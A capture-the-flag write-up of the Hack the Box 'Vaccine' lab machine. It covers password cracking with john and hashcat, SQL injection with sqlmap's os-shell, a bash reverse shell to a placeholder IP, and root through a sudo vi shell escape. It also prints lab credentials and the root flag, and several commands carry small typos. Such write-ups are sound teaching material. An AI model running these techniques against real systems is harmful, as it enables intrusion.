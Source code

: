 +++
title = "Hack the Box: Vaccine"
date = 2023-02-12
description = "Hack the Box: Vaccine"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: Vaccine

<!--more-->

# Vaccine

## Enumeration

### Nmap

```
#nmap -sC -sV 10.10.10.46    
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-27 16:52 CEST
Nmap scan report for 10.10.10.46
Host is up (0.045s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see an ftp port open, let’s try to connect on it using the credentials got from the last box (Oopsie) `ftpuser / mc@F1l3ZilL4`.

```
# ftp 10.10.10.46
# dir
```

We’re using zip2john to calculate the hash of the archive’s password:

```
sudo zip2john backup.zip > hash
```

Then we pass it into john:

```
sudo john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
```

and we get `741852963` as password. Unzip the archive with it. Open index.php, we find a md5 hash, let’s crack it using hashcat:

```
# hashcat -m 0 2cb42f8734ea607eefed3b70af13bbd3 /usr/share/wordlists/rockyou.txt -O
```

And we get `qwerty789`.

## Foothold

Let’s browse to 10.10.10.46 and try some simple authentication : `admin \ qwerty789` ends by working. We can see that the search argument is passed in the GET request `http://10.10.10.46/dashboard.php?search=a`. Let’s try SQLMap, but first grab the cookie with the firefox console `1qd0d4rp5tne7qj80p4e347t2o`:

```
# sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID:1qd0d4rp5tne7qj80p4e347t2o"
```

We find that it’s possible to do injection and that the backend is a Postgre. Code execution is easy:

```
# sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID:1qd0d4rp5tne7qj80p4e347t2o" --os-shell
```

This can be used to execute a bash reverse shell:

```
# bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'7
```

```
# nc -lvnp 4444
```

It’s also possible to ssh using the first credentials:

```
# ssh ftpuser@10.10.10.467
```

## Privilege Escalation

Upgrade your shell:

```
# SHELL=/bin/bash script -q /dev/null
```

In /var/www/html/dashboard.php we can find this:

```
try {
      $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
    }
```

Now you can: `su postgres` or `ssh postgres@10.10.10.46`

Let’s view the sudo privilege of the user:

```
# python3 -c "import pty;pty.spwn('/bin/bash')"
# sudo -l
```

Run the command from the sudoers file and leverage:

```
# sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
# Edit the file
# :!/bin/bash
# whoami
```

You can now get the flag in /root/root.txt: `dd6e058e814260bc70e9bbdef2715849`

